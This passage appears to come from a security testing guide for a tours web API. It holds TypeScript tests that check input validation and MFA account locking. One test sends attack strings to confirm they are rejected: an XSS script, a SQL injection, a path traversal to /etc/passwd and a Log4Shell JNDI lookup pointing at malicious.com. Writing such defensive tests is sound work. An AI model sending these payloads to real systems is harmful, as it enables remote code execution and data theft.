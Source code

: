 ```typescript
  })
})
```

#### Requirement 6: Secure Development
```typescript
describe('Secure Development', () => {
  it('should validate all input parameters', async () => {
    const maliciousInputs = [
      '<script>alert("xss")</script>',
      '"; DROP TABLE users; --',
      '../../../etc/passwd',
      '${jndi:ldap://malicious.com/a}'
    ]

    for (const input of maliciousInputs) {
      const response = await request.post('/api/tours').send({
        title: input,
        description: input
      })
      expect(response.status).toBe(400)
      expect(response.body.error).toContain('Invalid input')
    }
  })
})
```

## Authentication & Authorization Testing

### Multi-Factor Authentication
```typescript
describe('Multi-Factor Authentication', () => {
  it('should require MFA for organizer accounts', async () => {
    // Test MFA setup
    const user = await createOrganizerAccount()
    const loginResponse = await attemptLogin(user.email, user.password)
    expect(loginResponse.requires_mfa).toBe(true)
    
    // Test MFA verification
    const mfaToken = generateTestMFAToken()
    const verifyResponse = await verifyMFA(user.id, mfaToken)
    expect(verifyResponse.access_token).toBeDefined()
  })

  it('should lock accounts after failed MFA attempts', async () => {
    const user = await createOrganizerAccount()
    
    // Attempt multiple failed MFA verifications
    for (let i = 0; i < 5; i++) {
      await verifyMFA(user.id, 'invalid-token')
    }
    
    const loginAttempt = await attemptLogin(user.email, user.password)
    expect(loginAttempt.account_locked).toBe(true)
  })
})
```

